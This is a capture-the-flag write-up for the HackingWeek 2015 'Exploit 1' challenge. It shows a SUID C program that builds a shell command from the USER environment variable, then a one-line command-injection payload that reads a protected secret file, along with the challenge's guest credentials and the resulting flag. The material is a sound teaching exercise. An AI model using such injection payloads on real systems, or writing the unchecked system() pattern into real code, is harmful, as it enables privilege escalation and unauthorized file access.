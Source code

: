 # HackingWeek CTF 2015: Exploit 1

**Category:** exploit |
**Points:** 860 |
**Solves:** 77 |
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit01/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up

This task is an exploit task.  
We are given a shell on a remote server.  
The source code is also given :

```C
#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int
main()
{
  char *buffer = NULL;
  gid_t gid = getegid();
  uid_t uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  asprintf(&buffer, "/bin/echo %s is using this program!", getenv("USER"));
  system(buffer);

  return EXIT_SUCCESS;
}
```		

The goal is pretty obvious : for every exploiting task, we need to take
advantage of an SUID binary, and read the content of
/home/exploit<nb>/.secret.  
This task is the first one, and is pretty easy : there is an unchecked call to
system() with an environment variable.  
It is possible for a user to change the USER variable either by exporting it,
or prepending `USER='foo'` before runing the binary.  
It makes it possible to run commands easilly :  
> `USER=';whoami; cat ../.secret #' ./vulnerable`  
> 
> exploit01  
> raht6ae1Ue

**Flag**: raht6ae1Ue

